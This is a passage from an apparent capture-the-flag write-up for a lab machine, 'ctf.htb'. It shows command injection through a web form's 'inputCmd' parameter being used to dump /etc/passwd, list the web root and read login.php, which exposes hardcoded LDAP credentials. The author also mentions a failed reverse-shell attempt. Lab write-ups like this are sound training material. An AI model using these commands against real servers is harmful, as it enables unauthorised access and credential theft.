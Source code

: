 ```
dbus:x:81:81:System message bus:/:/sbin/nologin
polkitd:x:999:998:User for polkitd:/:/sbin/nologin
apache:x:48:48:Apache:/usr/share/httpd:/sbin/nologin
libstoragemgmt:x:998:997:daemon account for libstoragemgmt:/var/run/lsm:/sbin/nologin
abrt:x:173:173::/etc/abrt:/sbin/nologin
rpc:x:32:32:Rpcbind Daemon:/var/lib/rpcbind:/sbin/nologin
sshd:x:74:74:Privilege-separated SSH:/var/empty/sshd:/sbin/nologin
postfix:x:89:89::/var/spool/postfix:/sbin/nologin
ntp:x:38:38::/etc/ntp:/sbin/nologin
chrony:x:997:995::/var/lib/chrony:/sbin/nologin
tcpdump:x:72:72::/:/sbin/nologin
ldap:x:55:55:OpenLDAP server:/var/lib/ldap:/sbin/nologin
saslauth:x:996:76:Saslauthd user:/run/saslauthd:/sbin/nologin
ldapuser:x:1000:1000::/home/ldapuser:/bin/bash
</pre>
        ----------------
         Removed Output
        ----------------
```
<br> We can see that `ldapuser` is an actual user on the box, I tried to get a reverse shell but for some reason I couldn't get a reverse shell at all so I started to look in the web files. I was already in the web directory :
```
inputCmd=pwd&inputOTP=14546713

/var/www/html
```
<br> I listed the files :
```
inputCmd=ls -la&inputOTP=14546713

total 36
drwxr-xr-x. 6 root   root    176 Oct 23  2018 .
drwxr-xr-x. 4 root   root     33 Jun 27  2018 ..
-rw-r--r--. 1 root   root      0 Jul 20 00:03 banned.txt
-rw-r-----. 1 root   apache 1424 Oct 23  2018 cover.css
drwxr-x--x. 2 root   apache 4096 Oct 23  2018 css
drwxr-x--x. 4 root   apache   27 Oct 23  2018 dist
-rw-r-----. 1 root   apache 2592 Oct 23  2018 index.html
drwxr-x--x. 2 root   apache  242 Oct 23  2018 js
-rw-r-----. 1 root   apache 5021 Oct 23  2018 login.php
-rw-r-----. 1 root   apache   68 Oct 23  2018 logout.php
-rw-r-----. 1 root   apache 5245 Oct 23  2018 page.php
-rw-r-----. 1 root   apache 2324 Oct 23  2018 status.php
drwxr-x--x. 2 apache apache    6 Oct 23  2018 uploads
```
<br> I started looking for any hardcoded credentials in the `php` files, in `login.php` I found credentials for `ldapuser` :
```
inputCmd=cat login.php&inputOTP=04181897

<?php
session_start();
$strErrorMsg="";

$username = 'ldapuser';
$password = 'e398e27d5c4ad45086fe431120932a01';

$basedn = 'dc=ctf,dc=htb';
$usersdn = 'cn=users';

// This code uses the START_TLS command

$ldaphost = "ldap://ctf.htb";
```